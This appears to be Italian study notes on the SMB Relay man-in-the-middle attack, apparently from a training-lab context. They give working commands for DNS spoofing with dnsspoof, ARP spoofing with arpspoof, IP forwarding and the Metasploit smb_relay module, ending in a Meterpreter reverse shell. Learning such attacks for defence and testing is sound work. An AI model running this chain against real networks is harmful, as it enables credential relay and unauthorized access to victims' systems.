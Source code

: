 # SMB Relay Attack – Tecnica, Configurazione e Spiegazioni

L’**SMB Relay Attack** è una tecnica di attacco di tipo man-in-the-middle (MITM) in cui un attaccante intercetta una richiesta SMB legittima e la inoltra verso un altro sistema, impersonando l’utente vittima e ottenendo così accesso non autorizzato a risorse sensibili.

È particolarmente efficace nei sistemi Windows, dove SMB è comunemente usato per la condivisione di file, stampanti e risorse di rete.

---

## Funzionamento dell’attacco SMB Relay

### Intercettazione del traffico SMB
Un attaccante si posiziona tra un client e un server SMB legittimo utilizzando tecniche MITM come:
- **ARP Spoofing**
- **DNS Spoofing**
- **Server SMB malevolo fittizio**

### Acquisizione degli hash NTLM
Quando un client si connette a un server SMB, invia un pacchetto di autenticazione NTLM. <br>
L’attaccante, in posizione MITM, intercetta questi hash senza doverli decifrare.

### Relay su server legittimo
L’hash NTLM intercettato viene semplicemente **inoltrato** a un altro server SMB che si fida della richiesta. <br>
Questo consente all’attaccante di **impersonare l’utente** la cui autenticazione è stata intercettata.

### Accesso non autorizzato
Se il relay ha successo, l’attaccante ottiene l’accesso alle risorse disponibili su quel server con i privilegi dell’utente vittima (che potrebbero includere file, database, o privilegi amministrativi).

---

## Esecuzione dell’attacco con Metasploit

Metasploit fornisce un modulo dedicato:

`use exploit/windows/smb/smb_relay`

Configurazioni necessarie:
- `SRVHOST` ⟶ l’IP della macchina attaccante.
- `SMBHOST` ⟶ l’IP del server SMB target a cui inoltrare l’autenticazione.
- `LHOST` ⟶ IP dell’ascoltatore della macchina attaccante (per reverse shell).

Dopo la configurazione si esegue l’exploit per avviare l’attacco.

---

## DNS Spoofing – Preparazione

Il comando:
```bash
echo "<IPattaccante> *.sportsfoo.com" > dns
```
crea un file chiamato `dns` che associa **qualsiasi sottodominio di sportsfoo.com** all’indirizzo IP dell’attaccante. <br>
Questo file viene poi utilizzato da `dnsspoof` per falsificare risposte DNS, dirottando richieste DNS legittime verso l’attaccante.

Questo passaggio è fondamentale perché consente alla vittima di tentare la connessione SMB verso l’host controllato dall’attaccante.

Poi eseguiamo:
```bash
dnsspoof -i eth1 -f dns
```
- `-i eth1` ⟶ specifica l’interfaccia da usare per il listening (es. eth1).
- `-f dns` ⟶ indica il file contenente i record DNS falsificati.

Questo avvia il processo di DNS Spoofing sulla rete.

---

## ARP Spoofing e IP Forwarding – Man in the Middle

### Abilitazione dell’IP Forwarding
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```
Questo comando **abilita l’inoltro dei pacchetti IP** sulla macchina Kali. <br>
È necessario per permettere alla macchina attaccante di comportarsi come router tra la vittima e il gateway.

### Avvio dell’ARP Spoofing

Nel primo terminale:
```bash
arpspoof -i eth1 -t <targetIP> <gateway>
```
- `-i eth1` ⟶ interfaccia da usare.
- `-t <targetIP>` ⟶ IP della vittima.
- `<gateway>` ⟶ IP del router/gateway.

Nel secondo terminale (comunicazione inversa):
```bash
arpspoof -i eth1 -t <gatewayIP> <targetIP>
```
Questo configura un **MITM bidirezionale**, in cui la macchina Kali si interpone tra vittima e gateway.

---

## Comportamento del Relay

Ogni volta che la vittima tenta di connettersi a un dominio SMB (es. `\sportsfoo.com`), il DNS spoof redireziona la richiesta verso la macchina Kali. 

Il modulo Metasploit `smb_relay` intercetta la connessione SMB, acquisisce l’hash NTLM, lo inoltra al server SMB configurato e se l’attacco ha successo, si ottiene una sessione `Meterpreter` sul sistema bersaglio.

Questa catena di attacco è efficace **senza dover craccare l’hash NTLM**, sfruttando semplicemente la fiducia implicita tra sistemi sulla rete.

---
